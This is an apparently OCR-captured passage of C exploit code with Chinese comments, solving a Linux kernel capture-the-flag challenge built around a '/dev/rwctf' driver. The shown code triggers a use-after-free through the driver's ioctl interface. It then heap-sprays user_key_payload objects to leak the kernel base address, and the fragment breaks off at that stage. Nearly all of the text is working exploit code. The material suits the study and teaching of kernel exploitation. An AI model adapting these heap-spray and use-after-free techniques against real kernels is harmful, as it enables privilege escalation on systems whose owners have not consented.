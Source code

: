 ```c
}

void note_add(unsigned int index, unsigned int size, void *content)
{
    note n = {
        .index = index,
        .size = size,
        .ptr = content};
    ioctl(file_fd, 0xDEADBEEF, &n);
}

int main()
{
    size_t *buf;
    char description[0x100];
    int key_id[KEY_SPRAY_NUM];
    int victim_key_idx = -1;
    size_t pipe_key_id = -1;
    int pipe_fd[2];
    size_t pipe_buffer_addr = -1;

    info("Staring to exploit...");

    // 准备工作，绑定CPU核心，保存寄存器状态
    bind_core(0);
    save_status();

    // 申请一块空间备用
    buf = malloc(sizeof(size_t) * 0x4000);

    // 打开题目给的驱动
    file_fd = open("/dev/rwctf", O_RDONLY);
    if (file_fd < 0)
    {
        error("Failed to open device.");
        exit(0);
    }

    /**
     * Step1. 泄露内核基地址
     */

    // 使用题目功能申请一块空间，随后释放，存在UAF
    info("Start to construct UAF...");
    note_add(0, PIPE_INODE_INFO_SZ, buf);
    note_free(0);

    // 通过堆喷拿到user_key_payload结构体
    // 这里是比较复杂的，推荐自己玩明白
    for (int i = 0; i < KEY_SPRAY_NUM; i++)
    {
        snprintf(description, 0x100, "%s%d", "ltfall", i);
        key_id[i] = key_alloc(description, buf, PIPE_INODE_INFO_SZ - 0X18);
        if (key_id[i] < 0)
        {
            error("Failed to alloc key %d!", i);
            exit(0);
        }
    }

    // 上面已经通过堆喷将user_key_payload申请为了UAF obj
    // 但我们没有直接edit这个UAF obj的能力，只能在申请时写值
    // 而我们需要再次将其释放，并堆喷，目的是利用题目功能往obj里面写内容
```